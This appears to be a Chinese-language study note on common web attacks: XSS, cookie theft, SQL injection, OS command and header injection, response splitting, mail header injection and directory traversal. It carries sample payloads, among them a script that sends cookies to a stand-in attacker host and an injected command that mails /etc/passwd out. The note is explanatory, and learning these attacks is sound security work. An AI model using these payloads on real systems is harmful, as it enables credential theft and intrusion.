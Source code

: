 # Web 攻击

目录

- [原因](#原因)
- [攻击方式](#攻击方式)
    - [跨站脚本攻击 XSS](#跨站脚本攻击-xss)
    - [对用户 Cookie 的窃取攻击](#对用户-cookie-的窃取攻击)
    - [SQL 注入攻击](#sql-注入攻击)
    - [OS 命令注入攻击](#os-命令注入攻击)
    - [HTTP 首部注入攻击](#http-首部注入攻击)
    - [HTTP 响应截断攻击](#http-响应截断攻击)
    - [邮件首部注入攻击](#邮件首部注入攻击)
    - [目录遍历攻击](#目录遍历攻击)

## 原因

- HTTP 不具备安全功能
- 在客户端可以篡改请求

## 攻击方式

### 跨站脚本攻击 XSS

通过提交的信息中带入 js 脚本，执行操作或者引入三方 js 。

正常请求：<br />
http://example.jp/login?ID="haha"<br />
正常显示：<br />
&lt;input type="text" name="ID" value="yama" />

攻击请求：<br />
http://example.jp/login?ID=">&lt;script>var+f=document.getElementById("login");&lt;/script>"<br />
攻击显示：<br />
&lt;input type="text" name="ID" value="">&lt;script>var+f=document.getElementById("login");&lt;/script>

### 对用户 Cookie 的窃取攻击

恶意三方脚本执行。

如下：<br />
var content = escape(document.cookie);<br />document.write("&lt;img src=http://hackr.jp/?");<br />document.write(content);<br />document.write(">");<br />

### SQL 注入攻击

正常请求：<br />
http://example.jp/search?q=haha<br />
正常执行：<br />
SELECT * FROM bookTbl WHERE author = 'haha' and flag = 1;

攻击请求：<br />
http://example.jp/search?q=haha‘ --<br />
攻击显示：<br />
SELECT * FROM bookTbl WHERE author = 'haha' --’ and flag = 1;<br />
flag = 1 的条件被忽略

### OS 命令注入攻击

核心代码：<br />
my $adr = $q->param('mailaddress');<br />open(MAIL, "| /usr/sbin/sendmail $adr");<br />print MAIL "From: info@example.com\n";<br />

当传入 mailaddress 参数为 ; cat /etc/passwd | mail hack@example.jp

会执行下面的语句：<br />
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp<br />
将含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。

### HTTP 首部注入攻击

http 头部信息：<br />
Location: http://www.example.com/a.cgi?q=101%0D%0ASet-Cookie:+SID=123456789

%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

### HTTP 响应截断攻击

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。

如下：<br />
Set-Cookie: UID=（%0D%0A ：换行符）<br />（%0D%0A ：换行符）<br />&lt;HTML>&lt;HEAD>&lt;TITLE>之后，想要显示的网页内容 &lt;!--（原来页面对应的首部字利

### 邮件首部注入攻击

bob@hackr.jp%0D%0ABcc: user@example.com

%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。

bob@hackr.jp%0D%0A%0D%0ATest Message

使用两个连续的换行符就有可能篡改邮件文本内容并发送。

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。

### 目录遍历攻击

http://example.com/read.php?log=../../etc/passwd

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。